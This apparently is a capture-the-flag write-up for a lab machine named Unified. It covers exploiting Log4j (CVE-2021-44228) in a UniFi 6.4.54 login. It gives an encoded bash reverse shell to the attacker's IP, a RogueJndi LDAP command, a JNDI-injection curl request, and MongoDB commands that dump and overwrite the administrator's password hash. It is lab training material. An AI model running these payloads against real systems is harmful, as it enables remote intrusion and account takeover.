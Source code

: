 ```yaml
---
title: Unified
published: true
tags: [Web, Databases, Injection, MongoDB, Java, Default Credentials, Code Injection]
---
```


After the initial Nmap scan we have 6 ports open

```
PORT     STATE SERVICE       REASON
22/tcp   open  ssh           syn-ack
6789/tcp open  ibm-db2-admin syn-ack
8080/tcp open  http-proxy    syn-ack
8443/tcp open  https-alt     syn-ack
8843/tcp open  unknown       syn-ack
8880/tcp open  cddbp-alt     syn-ack
```

we also find a unifi login 6.4.54 https://unified.htb:8443/manage/account/login?redirect=%2Fmanage

I have exploited this version of unifi once before it had the Log4j CVE-2021-44228 vulnerability.

Following <a href="https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi">sprocket security's</a> guide

Starting by installing maven and compiling the rogue-jndi, which is a LDAP server for JNDI injection attacks.

Once the Jar is compiled we  need to make a command to deliver the reverse shell. we craft this and base64 encode it.

- `echo 'bash -c bash -i >&/dev/tcp/10.10.16.193/6985 0>&1' | base64`

then insert into our rogue-JNDI command

- `java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTYuMTkzLzY5ODUgMD4mMQo=}|{base64,-d}|{bash,-i}" --hostname "10.10.16.193"`

Then to get a reverse shell we can use this cURL command

- `curl -i -s -k -X POST -H $'Host: 10.129.207.100:8443' -H $'Content-Length: 104' --data-binary $'{\"username\":\"a\",\"password\":\"a\",\"remember\":\"${jndi:ldap://10.10.16.193:1389/o=tomcat}\",\"strict\":true}' $'https://10.129.207.100:8443/manage/account/login'`

for whatever reason my curl request isnt working but capturing in burp and sending the payload through there gets us a reverse shell on 6985.

There is no python available on this machine to upgrade our shell but we can use `script /dev/null -c bash` to get the same effect.

Once we are inside the exploiters found that the MongoDB instance storing all of the application information is listening on localhost without authentication. That mean we can read from and make changed to the local MongoDB instance. we can extract password hashes, reset admin password, add a shadow admin. 

# Replacing admin password

Dump password hashes from local db. This command will dump a JSON array of users, privileges and password hashes.

- `mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"`

```
        "_id" : ObjectId("61ce278f46e0fb0012d47ee4"),
        "name" : "administrator",
        "email" : "administrator@unified.htb",
        "x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.",
```

create a new sha-512 pass `mkpasswd -m sha-512 password`

- `mongo --port 27117 ace --eval 'db.admin.update({"_id":
ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$12ZN9Uh2iuQRjoTM$jmc2jIzCTMPU.kFp7driwLcqqOh6rffa1zysWCai2WKy79JjMvpU/DmfRagkHeUZdlpmee6hP/wo.5.LialJw0"}})'`

we can then login and grab the root ssh password and get anything we need from the machine.